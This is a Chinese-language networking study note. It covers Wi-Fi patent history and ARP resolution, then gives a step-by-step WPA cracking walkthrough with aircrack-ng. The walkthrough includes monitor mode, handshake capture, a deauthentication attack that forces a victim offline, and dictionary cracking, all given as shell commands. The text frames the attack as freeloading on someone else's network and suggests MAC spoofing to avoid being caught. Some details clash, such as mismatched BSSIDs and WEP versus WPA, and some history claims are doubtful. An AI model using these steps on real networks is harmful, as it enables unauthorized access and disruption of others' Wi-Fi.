

## WIFI

无线网络是IEEE定义的无线网技术，在1999年IEEE官方定义802.11标准的时候，IEEE选择并认定了CSIRO发明的无线网技术是世界上最好的无线网技术，因此CSIRO的无线网技术标准，就成为了2010年Wi-Fi的核心技术标准。**物理层**

电气和电子工程师协会

无线网络技术由澳洲政府的研究机构CSIRO在90年代发明并于1996年在美国成功申请了无线网技术专利。（US Patent Number 5,487,069）

发明人是悉尼大学工程系毕业生Dr John O'Sullivan领导的一群由悉尼大学工程系毕业生组成的研究小组 。

IEEE曾请求澳洲政府放弃其无线网络专利，让世界免费使用Wi-Fi技术，但遭到拒绝。

澳洲政府随后在美国通过官司胜诉或庭外和解，收取了世界上几乎所有电器电信公司（包括苹果、英特尔、联想、微软，等等）的专利使用费。2010年我们每购买一台含有Wi-Fi技术的电子设备的时候，我们所付的价钱就包含了交给澳洲政府的Wi-Fi专利使用费。

## ARP

地址解析协议由互联网工程任务组（IETF）在1982年11月发布的RFC 826中描述制定。 地址解析协议是IPv4中必不可少的协议，而IPv4是使用较为广泛的互联网协议版本（IPv6仍处在部署的初期）。**网络层**

OSI模型把网络工作分为七层，IP地址在OSI模型的第三层，MAC地址在第二层，彼此不直接打交道。在通过以太网发送IP数据包时，需要先封装第三层（32位IP地址）、第二层（48位MAC地址）的报头，但由于发送时只知道目标IP地址，不知道其MAC地址，又不能跨第二、三层，所以需要使用地址解析协议。使用地址解析协议，可根据网络层IP数据包包头中的IP地址信息解析出目标硬件地址（MAC地址）信息，以保证通信的顺利进行。



### 工作过程

主机A的IP地址为192.168.1.1，MAC地址为0A-11-22-33-44-01；

主机B的IP地址为192.168.1.2，MAC地址为0A-11-22-33-44-02；

当主机A要与主机B通信时，地址解析协议可以将主机B的IP地址（192.168.1.2）解析成主机B的MAC地址，以下为工作流程：

第1步：根据主机A上的路由表内容，IP确定用于访问主机B的转发IP地址是192.168.1.2。然后A主机在自己的本地ARP缓存中检查主机B的匹配MAC地址。

第2步：如果主机A在ARP缓存中没有找到映射，它将询问192.168.1.2的硬件地址，从而将ARP请求帧广播到本地网络上的所有主机。源主机A的IP地址和MAC地址都包括在ARP请求中。本地网络上的每台主机都接收到ARP请求并且检查是否与自己的IP地址匹配。如果主机发现请求的IP地址与自己的IP地址不匹配，它将丢弃ARP请求。**Arp欺骗主要是这个环节，将arp的缓存更改**

第3步：主机B确定ARP请求中的IP地址与自己的IP地址匹配，则将主机A的IP地址和MAC地址映射添加到本地ARP缓存中。

第4步：主机B将包含其MAC地址的ARP回复消息直接发送回主机A。

第5步：当主机A收到从主机B发来的ARP回复消息时，会用主机B的IP和MAC地址映射更新ARP缓存。本机缓存是有生存期，生存期结束后，将再次重复上面的过程。主机B的MAC地址一旦确定，主机A就能向主机B发送IP通信了。

## WIFI破解准备

1.无线网卡3070 8187芯片(免驱,直接插上就能用)


### 原理

模拟环境 路由A 和上网的B 以及想蹭网的C 

 AB正常沟通 B通过A 上网 ，A的名字叫做A （也就是无线的名字）

 C也想上 但是没有密码 正常情况下 含有密码的B 有密码 在连接的时候 会向A发送携带密码的数据包 并获得IP地址 我们得目的就是想办法拦截中间的这个数据包并破解 

怎么拦截呢？

 首先攻击者C开启了监听 就是说C能接收到当前功率覆盖面积的所有无线数据包 然后在对当前信道轰炸 也就是说C对A发送大量虚假的连接者 

 由于路由的链接数量是有限的 最终 C把B 挤下去了 B 一脸懵逼 然后再次想要链接A 然后B携带者含有密码的数据包发送给A 中间这个过程被正在监听的C 抓获了含有密码的数据包

  这个含有密码的数据包我们称之为握手包 与TCP/IP三次握手差不多

  这是后C用字典对抓到的握手包进行比对 比对一样了 然后就输出这个字符串也就是链接A所用的密码 

## Aircrack-ng概述

Aircrack-ng是一款用于破解无线802.11WEP及WPA-PSK加密的工具，该工具在2005年11月之前名字是Aircrack，在其2.41版本之后才改名为Aircrack-ng。
Aircrack-ng（注意大小写，aircrack-ng是Aircrackng中的一个组件）是一个包含了多款工具的无线攻击审计套装，这里面很多工具在后面的内容中都会用到，具体见下表为Aircrack-ng包含的组件具体列表。


|组件名称|	描述|
| ----|----|
|aircrack-ng	|主要用于WEP及WPA-PSK密码的恢复，只要airodump-ng收集到足够多数量的数据包，aircrack-ng就可以自动检测数据包并判断是否可以破解|
|airmon-ng	|用于改变无线网卡的工作模式，以便其他工具的顺利使用|
|airodunmp-ng	|用于捕捉802.11数据报文，以便aircrack-ng破解，抓包|
|aireplay-ng	|在进行WEP及WPA-PSK密码恢复时，可以根据需要创建特殊的无线网络数据报文及流量|
|airserv-ng	|可以将无线网卡连接至某一特定端口，为攻击时灵活调用作准备|
|airolib-ng	|进行WPA Rainbow Table攻击时使用，用于建立特定数据库文件|
|airdecap-ng	|用于解开处于加密状态的数据包|
|tools	|其他用于辅助的工具，如airdriver-ng、packetforge-ng等|

破解wifi步骤

1. 修改无线网卡状态：先 down 掉
2. 伪造无线网卡的 MAC 地址：安全起见，减少被抓到的可能
3. 修改网卡工作模式：进入Monitor状态，会产生一个虚拟的网卡
4. 修改无线网卡状态： up
5. 查看网络状态，记录下 AP 的 MAC 和本机的 MAC ，确定攻击目标
6. 监听抓包：生成 .cap 或 .ivs
7. 干扰无线网络：截取无线数据包，发送垃圾数据包，用来获得更多的有效数据包
8. 破解 .cap 或 .ivs ，获得 WEP 密码，完成破解

## 破解实战

1.查看网卡设备：

```shell
ifconfig / iwconfig
```
　　2.查看是否支持监听模式：
```shell
airmon-ng
```
　　3.开启无线网卡监控模式
```shell
airmon-ng start wlan*  ## wlan0会多了一个mon，证明开启成功
```
　　4.查看周围WIFI网络：
```shell
airodump-ng wlan0mon
```
　　5.监听目标网络的握手包：
```shell
airodump-ng -c 11 --bssid 2C:57:31:60:27:E6 -w ~/1/ wlan0mon 
```
　　　　参数解释：ESSID：为WIFI名字。

　　　　　　-c 指定频道[信道]号 CH：信道

　　　　　　-bassid 指定路由器bassid MAC地址

　　　　　　-w 指定抓取的数据包保存位置 1:文件名

　　　　　　wlan0mon 开启

　　　　如果没有[WPA handshake:MAC地址]，就可以强制让它断开，重新连接，看是否能抓到数据包

　　6.强制对方WIFI断开重连[获取握手包]
```shell
　　aireplay-ng -0 2 -a 2C:57:31:60:27:E6 -c 60:AB:67:F2:F5:A8 wlan0mon
```
　　　　参数解释：

　　　　　　-0 表示发起[鉴权] deauthentication攻击 2 为鉴权等级。

　　　　　　-a 指定无线路由器[开启wifi设备的MAC地址]BSSID

　　　　　　-c 指定强制断开的设备[链接wifi设备的MAC地址]

　　　　　　wlan0mon 开启

　　7.破解握手包密码：　
```shell
aircrack-ng -a2 -b 52:8F:4C:67:B1:91 -w pass.txt ~/1/*.cap 
```
　参数解释：

　　　　　　-a2 　　　　代表WPA的握手包

　　　　　　-b 　　　　 指定要破解的WIFI[MAC地址] BSSID

　　　　　　-w　　　　 指定字典文件

　　8.关闭监听模式：
```shell
airmon-ng stop wlan0mon
```
　　　　破解密码链接之前要关闭监听模式